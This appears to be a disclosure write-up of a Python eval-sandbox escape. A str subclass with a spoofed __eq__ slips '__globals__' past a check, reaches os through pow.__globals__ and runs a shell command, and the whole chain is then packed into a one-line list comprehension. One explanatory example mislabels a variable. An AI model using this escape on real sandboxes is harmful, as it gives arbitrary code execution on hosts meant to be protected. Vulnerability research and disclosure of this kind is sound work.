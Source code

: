 To do this a function will be reconstructed from the bytecode of a compiled one:
```py
orgTypeFun = type(type(1))
Word = orgTypeFun('Word', (str,), {
    'mutated': 1,
            'startswith': lambda self, x: False,
            '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x,
            'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
            '__hash__': lambda self: hash(str(self))
            })
globalsattr = Word('__globals__')
glbs = getattr(pow,globalsattr)
glbs['os'].system('touch /tmp/exploited')
```

However a multiline expression like this will not be executed in an eval context, to bypass this issue, `list comprehension` trick can be used, something like this:
```py
[print(x) for x in ['hellworld']]
# which would be equivalent to 
x='helloworld'
print(x)


[[ print (x + ' ' + y) for y in ['second var']]  for x in ['first var']]
# which would be equivalent to 
x='first var'
x='second var'
print (x + ' ' + y) 
```

With this technique the exploit code can be rewritten in one line of code like this (this is considered one line x) the multiline here is just formatting to increase readability of the exploit, The declarations should be read from bottom to top x) weird but this is how it works):
```py
[
    [
        getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
        for Word in [
            orgTypeFun(
                'Word',
                (str,),
                {
                    'mutated': 1,
                    'startswith': lambda self, x: False,
                    '__eq__': lambda self, x: self.mutate()
                    and self.mutated < 0
                    and str(self) == x,
                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
                    '__hash__': lambda self: hash(str(self)),
                },
            )
        ]
    ]
    for orgTypeFun in [type(type(1))]
]
```
# POC
Please refer to the `poc.py` as it contains proof of concept that demonstrates the code execution (upon successful exploitation a file called `exploited` is created in /tmp/ ).
